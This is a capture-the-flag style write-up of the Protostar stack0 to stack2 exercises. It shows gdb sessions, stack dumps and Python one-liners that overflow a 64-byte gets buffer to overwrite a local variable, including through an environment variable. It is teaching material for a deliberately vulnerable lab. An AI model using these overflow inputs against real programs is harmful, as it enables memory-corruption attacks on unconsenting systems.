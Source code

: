 # Writeups for protostar

## stack0

- First level introduces the concept of stack overflow, and how stack overflow can modify local variables.
- Look at the source code for stack0, and see that this program when executed, waits for our input and stores it into a buffer that is 64 bytes long.
- However it uses `gets` function which is really __insecure__.
- Giving the input larger than 64 bytes, modifies the `modified` variable:

```sh
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
you have changed the 'modified' variable
```

### Low level stuff

- Let's run this program in `gdb`:

```asm
(gdb) disas main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```

- Here's the assembly instruction that sets `modified` variable to 0:

```asm
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
```

- Set a breakpoint on gets:

```sh
(gdb) b *0x0804840c
Breakpoint 1 at 0x804840c: file stack0/stack0.c, line 11.
```

- Let's define a __hook__ in `gdb` which will execute some commands whenever it hits breakpoint:

```sh
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>i r
>x/24wx $esp
>x/2i $eip
>end
```

- This prints registers, the stack and next two instructions on every breakpoint.

```sh
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
eax            0x0      0
ecx            0xbffffc7c       -1073742724
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc60       0xbffffc60
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x8048415        0x8048415 <main+33>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffffc60:     0xbffffc7c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffffc70:     0xb7fd7ff4      0xb7ec6165      0xbffffc88      0x41414141
0xbffffc80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc90:     0x41414141      0x41414141      0x41414141      0x08048400
0xbffffca0:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffffcc8
0xbffffcb0:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
---Type <return> to continue, or q <return> to quit---
0x8048415 <main+33>:    test   eax,eax
0x8048417 <main+35>:    je     0x8048427 <main+51>

Breakpoint 2, 0x08048415 in main (argc=1, argv=0xbffffd74) at stack0/stack0.c:13
13      in stack0/stack0.c
```

- Notice i've placed a second breakpoint on `0x08048415`.
- Also notice that our stack gets filled with some `0x41`, but, `modified` still stays 0:

```sh
(gdb) x/xw $esp+0x5c
0xbffffcbc:     0x00000000
```

- You can actually see `modified` in the previous gdb output on the stack, it's the last entry.
- Count it manually, and you will see that you need to supply at least 64 long input to just reach `modified` variable in memory.
- After those 64 characters even if you supply one more character, you overwrite the `modified` variable.
- So let's input a pattern of characters which we can recognize (`0x44` is ascii 'D')

```sh
(gdb) c
Continuing.
AAAAAAAABBBBCCCCDDDDAAAABBBBCCCCDDDDAAAABBBBCCCCDDDDAAAABBBBCCCCDDDD
eax            0x44444444       1145324612
ecx            0xbffffc7c       -1073742724
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc60       0xbffffc60
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x8048415        0x8048415 <main+33>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffffc60:     0xbffffc7c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffffc70:     0xb7fd7ff4      0xb7ec6165      0xbffffc88      0x41414141
0xbffffc80:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffffc90:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffffca0:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffffcb0:     0x41414141      0x42424242      0x43434343      0x44444444
---Type <return> to continue, or q <return> to quit---
0x8048415 <main+33>:    test   eax,eax
0x8048417 <main+35>:    je     0x8048427 <main+51>

Breakpoint 3, 0x08048415 in main (argc=1, argv=0xbffffd74) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) x/s $esp+0x5c
0xbffffcbc:      "DDDD"
(gdb) c
Continuing.
you have changed the 'modified' variable
```

## stack1

- From the task description:
> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

- This should also be easy, let's try inputting 64 A's and DCBA respecting the little endian.
- Generate the input with python:

```py
$ python3 -c 'print("\x41" * 64 + "\x44\x43\x42\x41")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA
```

- Feed it the input:

```sh
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA
Try again, you got 0x41424344
```

- That's cool, but we need to set `modified` variable to `0x61626364`.

```py
$ python3 -c 'print("\x41" * 64 + "\x64\x63\x62\x61")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

- And...

```sh
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

## stack2

- This challenge introduces concepts of using environment variable to cause a stack overflow.
- `getenv` is not the most secure function in C.

- Solution is next:

```sh
$ export GREENIE="$(python -c 'print("A"*64+"\x0a\x0d\x0a\x0d")')"
$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ./stack2
you have correctly modified the variable
```
